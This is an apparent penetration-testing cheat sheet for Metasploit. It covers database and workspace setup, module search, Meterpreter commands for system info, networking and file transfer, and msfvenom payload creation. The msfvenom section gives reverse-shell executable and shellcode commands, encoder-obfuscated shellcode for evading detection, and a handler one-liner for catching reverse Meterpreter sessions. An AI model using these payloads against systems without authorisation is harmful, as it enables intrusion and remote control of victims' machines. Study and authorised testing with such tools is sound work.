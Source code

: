 # Metasploit

## Database

Init Metaspolit database.

```bash
sudo msfdb init
```

Run postgresql service.

```bash
sudo systemctl enable postgresql
```

### Workspaces

Change between workspaces for sperating the projects' databases.

```batch
workspace -a <workspace_name>
```

### Nmap

`db_nmap` is a Nmap binary wrapper which saves results into Metasploit's database enables explore results later combined.

`hosts` - show found hosts and their operating system.

`services` - show found services and which host runs them.



## Search Module

Metasploit module types:

* **Exploit Modules**: Code to exploit vulnerabilities in systems.
* **Payload Modules**: Code executed on the target post-exploitation.
* **Auxiliary Modules**: Tools for scanning and information gathering.
* **Post Modules**: Actions taken on a compromised system.
* **Encoder Modules**: Obfuscate payloads to evade detection.
* **Nop Generator Modules**: Create NOP sleds for buffer overflows.
* **Listener Modules**: Set up a listener for incoming connections.

```batch
search type:<module_type> <module_name>
search <module_name>
```

## Meterpeter

### System information

Get system info

```batch
sysinfo
```

Get current user

```batch
getuid 
```

### Network

{% code overflow="wrap" %}
```batch
arp # Display the host ARP cache
getproxy # Display the current proxy configuration
ifconfig # Display interfaces ipconfig Display interfaces netstat Display the network connections 
portfwd # Forward a local port to a remote service 
resolve # Resolve a set of host names on the target 
route # View and modify the routing table
```
{% endcode %}

### File System

commands with `l` prefix operate on the local system.

```batch
lcd <path>
lcat <file>
```

meterpeter allows extra file system commands like download or upload files from the local system to the target.

```batch
download <target_path> <local_path>
upload <local_path> <target_path>
```

### Channels

```batch
channels -l # listing channels
channels -i <channel_id> # use other channel
```

## MSFVenom

### Payloads

Search payloads for target platform

```batch
msfvenom -l payloads --platform windows --arch x64
```

Create executable payloads&#x20;

{% code overflow="wrap" %}
```batch
 # staged
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<host> LPORT=<port> -f exe -o rev.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<host> LPORT=<port> -f exe -o rev.exe
 # not staged
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<host> LPORT=<port> -f exe -o rev.exe
```
{% endcode %}

Generating shell code

{% code overflow="wrap" %}
```batch
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f powershell -v sc
```
{% endcode %}

Generating obfuscated shell code with bad words:

{% code overflow="wrap" %}
```batch
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
{% endcode %}

### Multi Handler

oneliner for multi handler

{% code overflow="wrap" %}
```bash
sudo msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```
{% endcode %}

## References

{% embed url="https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/" %}

{% embed url="https://www.offsec.com/metasploit-unleashed/" %}
